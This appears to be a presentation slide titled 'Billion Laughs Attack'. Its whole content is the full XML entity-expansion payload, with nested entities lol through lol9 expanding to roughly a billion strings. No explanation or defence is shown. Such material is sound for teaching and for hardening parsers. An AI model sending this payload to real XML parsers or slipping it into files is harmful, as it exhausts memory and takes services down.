

# Billion Laughs Attack
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>